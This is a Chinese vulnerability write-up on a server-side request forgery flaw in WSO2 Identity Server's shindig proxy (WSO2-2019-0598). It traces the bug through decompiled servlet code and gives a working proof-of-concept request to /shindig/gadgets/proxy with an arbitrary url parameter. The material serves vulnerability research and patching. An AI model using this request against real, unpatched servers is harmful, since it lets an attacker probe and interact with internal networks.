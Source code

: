 # WSO2 proxy SSRF漏洞 WSO2-2019-0598

## 漏洞描述

滥用 shindig Web 应用程序的 UI 小工具加载功能可以利用此漏洞。攻击者可以更改请求中的特定 URL，从而导致服务器向更改后的 URL 发起 GET 请求。通过利用此漏洞，攻击者可以使用服务器执行任意外部服务交互。这可以特别用于与内部网络的节点进行交互，否则这些节点会被网络规则隐藏在外部。攻击者可以利用它来追踪和侦察网络，除此之外，如果有内部端点对 GET 请求进行状态更改操作，那么就有可能很好地破坏它们的完整性。根据端点实施的保护级别，此漏洞的影响可能会有所不同。

## 漏洞影响

<a-checkbox checked>WSO2 Identity Server  5.2.0 , 5.3.0 , 5.4.0 , 5.4.1 , 5.5.0 , 5.6.0 , 5.7.0</a-checkbox></br>

<a-checkbox checked>WSO2 IS as Key Manager  5.3.0 , 5.5.0 , 5.6.0 , 5.7.0</a-checkbox></br>

## 环境搭建

[https://github.com/wso2/product-is/releases/download/v5.6.0-rc3/wso2is-5.6.0-rc3.zip](https://github.com/wso2/product-is/releases/download/v5.6.0-rc3/wso2is-5.6.0-rc3.zip)

## 漏洞复现

根据官方描述，漏洞造成的原因主要是  shindig Web 应用程序的 UI 小工具的加载功能, [WSO2-2019-0598](https://docs.wso2.com/display/Security/Security+Advisory+WSO2-2019-0598)

![img](/assets/PeiQi-Wiki/img/1650949168107-52c50aa8-724d-44fe-b6b7-88c5ee421b1a.png)

下载源码启动环境，在IDEA中调试,

![img](/assets/PeiQi-Wiki/img/1650949296183-8fcf7648-396c-4cf0-97e6-2d8bd7703549.png)

![img](/assets/PeiQi-Wiki/img/1650949352127-e4a58aa5-02ab-47b6-a39f-4c4674078557.png)

根据官方描述，在全局搜索 shindig 相关代码

![img](/assets/PeiQi-Wiki/img/1650949484773-86c19b18-058f-4b04-b3af-f2c770e042fe.png)

打下断点，看一下访问 `/shindig/gadgets/js` 路径时代码的调用流程

![img](/assets/PeiQi-Wiki/img/1650949747820-46ca8de3-5455-4814-9d7d-1f43470e9842.png)

可以看到当访问此路径时，调用了对应的 Servlet 下的 doGet方法 来处理`(org.apache.shindig.gadgets.servlet.JsServlet.doGet(JsServlet.java:86)`

![img](/assets/PeiQi-Wiki/img/1650949997574-c1633833-c71b-4d0d-b6f7-b2408c614032.png)

我们可以在文件 `conf/shindig/web.xml 找到对应的调用方法`
![img](/assets/PeiQi-Wiki/img/1650952090941-f1e39caa-c6ee-4ad2-9ee9-51f1d52f88f0.png)

看到这我们注意到 `org.apache.shindig.gadgets.servlet.MakeRequestServlet` 似乎与  Jira未授权SSRF漏洞(CVE-2019-8451) 中存在的漏洞点十分的相似

![img](/assets/PeiQi-Wiki/img/1650952325298-e424a1e2-e3e0-4a14-8424-10cfb0d63365.png)

但断点调试过程中，却发现这个点是利用失败的

![img](/assets/PeiQi-Wiki/img/1650952414457-a9d6704f-ac22-48fb-ba74-d1c96e2c18b0.png)

![img](/assets/PeiQi-Wiki/img/1650952488384-050175c2-7724-4dc3-a07d-ab5b893a2867.png)

只好去看一下其他的Servele , 最后我们注意到 ProxyServlet

![img](/assets/PeiQi-Wiki/img/1650952714596-71a7d9a1-931d-4592-a594-a0a113410d1c.png)

发送请求包，打断点看一下处理流程

```java
GET /shindig/gadgets/proxy?container=default&url=https://www.baidu.com HTTP/1.1
Host: localhost:9443
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
```

通过 `org.apache.shindig.gadgets.servlet.ProxyServlet` 下的 doGet方法接收参数， 传入 `processRequest`

中 

```java
private void processRequest(HttpServletRequest request, HttpServletResponse servletResponse) throws IOException {
        if (request.getHeader("If-Modified-Since") != null) {
            servletResponse.setStatus(304);
        } else {
            Uri reqUri = (new UriBuilder(request)).toUri();

            HttpResponse response;
            try {
                ProxyUri proxyUri = this.proxyUriManager.process(reqUri);
                SecurityToken st = AuthInfoUtil.getSecurityTokenFromRequest(request);
                proxyUri.setSecurityToken(st);
                proxyUri.setUserAgent(request.getHeader("User-Agent"));
                if (proxyUri.getGadget() == null && st != null && !st.isAnonymous()) {
                    proxyUri.setGadget(st.getAppUrl());
                }

                AuthType authType = proxyUri.getAuthType();
                if (AuthType.OAUTH.equals(authType)) {
                    proxyUri.setOAuthArguments(new OAuthArguments(AuthType.OAUTH, request));
                } else if (AuthType.OAUTH2.equals(authType)) {
                    proxyUri.setOAuth2Arguments(new OAuth2Arguments(request));
                }

                String host = request.getHeader("Host");
                if (!this.lockedDomainService.isSafeForOpenProxy(host)) {
                    Uri resourceUri = proxyUri.getResource();
                    String msg = "Embed request for url " + (resourceUri != null ? resourceUri.toString() : "n/a") + " made to wrong domain " + host;
                    if (LOG.isLoggable(Level.INFO)) {
                        LOG.logp(Level.INFO, classname, "processRequest", "embededImgWrongDomain", new Object[]{resourceUri != null ? resourceUri.toString() : "n/a", host});
                    }

                    throw new GadgetException(Code.INVALID_PARAMETER, msg, 400);
                }

                if ("POST".equalsIgnoreCase(request.getMethod())) {
                    StringBuffer buffer = this.getPOSTContent(request);
                    response = this.proxyHandler.fetch(proxyUri, buffer.toString());
                } else {
                    response = this.proxyHandler.fetch(proxyUri);
                }
            } catch (GadgetException var11) {
                response = ServletUtil.errorResponse(new GadgetException(var11.getCode(), var11.getMessage(), 400));
            }

            ServletUtil.copyToServletResponseAndOverrideCacheHeaders(response, servletResponse);
        }
    }
```

向下跟进到` org.apache.shindig.gadgets.servlet.ProxyHandler `

![img](/assets/PeiQi-Wiki/img/1650956411691-435ce4a4-0fd4-4c36-ae68-f225e5eefb31.png)



`org.apache.shindig.gadgets.servlet.ProxyHandler.fatch`

![img](/assets/PeiQi-Wiki/img/1650957359634-2d8e534a-14d0-409c-8b7d-61fdbdc5695b.png)



接着向下看到 org.apache.shindig.gadgets.servlet.ProxyHandler 下的 `buildHttpRequest` 方法创建Http请求， 而目标就是我们刚刚传入的Url参数

```java
 private HttpRequest buildHttpRequest(ProxyUri uriCtx, Uri tgt, @Nullable String postBody) throws GadgetException, IOException {
        ServletUtil.validateUrl(tgt);
        HttpRequest req = uriCtx.makeHttpRequest(tgt);
        req.setRewriteMimeType(uriCtx.getRewriteMimeType());
        if (postBody != null) {
            req.setMethod("POST");
            req.setPostBody(new ByteArrayInputStream(postBody.getBytes()));
        }

        if (req.getHeader("User-Agent") == null) {
            String userAgent = uriCtx.getUserAgent();
            if (userAgent != null) {
                req.setHeader("User-Agent", userAgent);
            }
        }

        return req;
    }
```

![img](/assets/PeiQi-Wiki/img/1650956748587-08627c03-ca22-489e-b174-eb1c476f9072.png)

![img](/assets/PeiQi-Wiki/img/1650956819778-3300aef4-dc84-425e-bcdf-6f5dd04bfa3e.png)

最后回显至页面中, 造成存在回显的SSRF

![img](../../../.vuepress/public/img/1650957201523-47aa0d2c-7cc7-4c10-b14c-fd48049681d3.png)![img](/assets/PeiQi-Wiki/img/1650957230578-815a5156-d3b5-419b-a2e7-c2ac97a2c562.png)